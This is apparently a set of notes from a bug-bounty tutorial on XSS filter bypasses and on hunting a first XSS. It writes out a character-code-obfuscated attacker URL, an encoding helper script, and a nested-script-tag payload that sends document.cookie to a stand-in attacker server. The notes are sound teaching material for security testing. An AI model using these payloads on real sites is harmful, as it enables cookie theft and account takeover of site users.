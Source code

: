 - For example, this piece of code is equivalent to the string "http://attacker_server_ip/?c=":
```
String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107,101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)
```
- The String.fromCharCode() function returns a string, given an input list of ASCII character codes. 
- You can use this piece of code to translate your exploit string to an ASCII number sequence by using an online JavaScript 
editor, like https://js.do/, to run the JavaScript code or by saving it into an HTML file and loading it in your browser:
```
<script>
function ascii(c){
 return c.charCodeAt();
}
encoded = "INPUT_STRING".split("").map(ascii);
document.write(encoded);
</script>
```

# Filter Logic Errors
- Finally, you could exploit any errors in the filter logic. 
- For example, sometimes applications remove all ```<script>``` tags in the user input to prevent XSS, but do it only once. 
- If that’s the case, you can use a payload like this:
```
<scrip<script>t>
location='http://attacker_server_ip/c='+document.cookie;
</scrip</script>t>
```
- Notice that each ```<script>``` tag cuts another ```<script>``` tag in two. 
- The filter won’t recognize those broken tags as legitimate, but once the filter removes the intact tags from this payload, the rendered input becomes a perfectly 
valid piece of JavaScript code:
```
<script>location='http://attacker_server_ip/c='+document.cookie;</script>
```
- These are just a handful of the filter-bypass techniques that you can try. 
- XSS protection is difficult to do right, and hackers are constantly coming up with new techniques to bypass protection. 
- That’s why hackers are still constantly finding and exploiting XSS issues in the wild. 
- For more filter bypass ideas, check out OWASP’s XSS filter evasion cheat sheet (https://owasp.org/www-community/xss-filter-evasion-cheatsheet). 
- You can also simply Google for XSS filter bypass for more interesting articles.


# Finding Your First XSS!
- Jump right into hunting for your first XSS! Choose a target and follow the steps we covered in this chapter:
    1. Look for user input opportunities on the application. When user input is stored and used to construct a web page later, test the input field for stored XSS. If user input in a URL gets reflected back on the resulting web page, test for reflected and DOM XSS.
    1. Insert XSS payloads into the user input fields you’ve found. Insert payloads from lists online, a polyglot payload, or a generic test string.
    1. Confirm the impact of the payload by checking whether your browser runs your JavaScript code. Or in the case of a blind XSS, see if you can make the victim browser generate a request to your server.
    1. If you can’t get any payloads to execute, try bypassing XSS protections.
    1. Automate the XSS hunting process with techniques introduced in Chapter 25.
    1. Consider the impact of the XSS you’ve found: who does it target? How many users can it affect? And what can you achieve with it? Can you escalate the attack by using what you’ve found?
    1. Send your first XSS report to a bug bounty program!

    